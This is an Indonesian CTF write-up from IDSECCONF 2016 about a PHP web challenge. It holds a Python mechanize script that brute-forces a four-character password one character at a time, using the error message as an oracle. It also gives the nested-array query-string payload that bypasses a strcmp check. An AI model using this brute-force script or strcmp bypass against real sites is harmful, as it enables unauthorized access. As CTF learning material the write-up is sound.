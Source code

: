```yaml
---
layout: post
title: "Test"
description: "Writeup Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
category: idsecconf
tags: [idsecconf,ctf,web]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
private: true
comments: true
featured: false
---
```


### Problem :

`http://128.199.96.39/`

### Solusi :

Kita di berikan website dengan di tampilkan source code nya dan terlihat jelas flag akan muncul ketika
variable `$ok` bernilai `True`. 

pertama saya mencoba memasukan parameter password 4x seperti ini
`http://128.199.96.39/?password[]=awd&password[]=awd&password[]=awd&password[]=awd`
namun tidak berhasil.

kemudian karena kita mengetahui panjang karakter password hanya 4 maka kita buat script untuk bruteforce

```python
import mechanize
import itertools
import string

br = mechanize.Browser()
url = "http://128.199.96.39/?password={0}{1}{2}{3}"
response = br.open(url)

cnt = 0
pat = "invalid {}Invalid"
acc = string.ascii_letters + "0123456789!@#$%^{}()[]"
combinations = itertools.permutations(acc,cnt+1)
res = ""
a = "x"
b = "x"
c = "x"
d = "x"
bb = "x"
cc = "x"
dd = "x"

while True:
    combinations = itertools.permutations(acc,1)
    for x in combinations:
        x = "".join(x)
        if a == "x":
            aa = x
        elif b == "x":
            bb = x
        elif c == "x":
            cc = x
        elif d == "x":
            dd = x
            
        response = br.open(url.format(aa,bb,cc,dd))
        #print url.format(aa,bb,cc,dd)
        cek = response.read().split("<")[0]
        #sprint cek
        if "flag" in cek:
            print cek
            break
        #print x
        
        if pat.format(cnt+1) in cek:
            cnt += 1
            if a == "x":
                a = x
            elif b == "x":
                b = x
            elif c == "x":
                c = x
            elif d == "x":
                d = x
            #print x
```

![Webwob Flag](/images/webwob_flag.png)

scriptnya agak berantakan disitu tujuan kita untuk dapat flagnya tapi :D

setelah membaca writeup dari [Cyber Security IPB](https://drive.google.com/drive/folders/0B73v7q0VGLSEWlRUbU96YXlsNU0) ternyata cara bypass vulnerability Strcmp di sini adalah seperti ini 
`http://128.199.96.39/?password[][]=&password[][]=&password[][]=&password[][]=`
karena input kita awalnya adalah array karena di dalam script melakukan pengecekan 
berdasarkan tiap index maka jika tiap index yang akan di cek adalah array maka akan
membuahkan hasil True.
